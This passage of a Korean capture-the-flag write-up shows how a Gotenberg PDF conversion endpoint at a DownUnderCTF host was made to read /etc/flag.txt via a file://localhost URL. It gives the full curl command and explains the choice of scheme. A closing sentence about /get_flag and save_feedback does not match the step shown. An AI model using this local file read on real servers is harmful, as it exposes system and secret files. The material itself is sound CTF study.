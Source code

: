 공식 홈페이지를 통해 사용하는 방법을 확인하였으니 아래와 같이 수정하여 PDF를 추출합니다.

```bash
curl \
--request POST https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/url \
--form url=file://localhost/etc/flag.txt \
--form landscape=true \
--form marginTop=1 \
--form marginBottom=1 \
-o my.pdf
```

URL의 프로토콜은 `http`, `file`, `ftp` 등이 존재하지만 파일을 받기 위한 **file**, 또한 서버측에 존재하는 파일을 가져오기 위한 **localhost**로 지정하여 PDF로 추출합니다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/753ddbc7-483f-454a-abda-4c301d6754f2" width = 850>
</p>

`/get_flag`에 접근 시 `save_feedback`을 통해 **flag=True**가 되었기에 플래그 추출이 가능하였습니다.

* **참고** : [gotenberg Github](https://github.com/gotenberg/gotenberg/releases/tag/v8.1.0)

* **참고** : [gotenberg](https://gotenberg.dev/)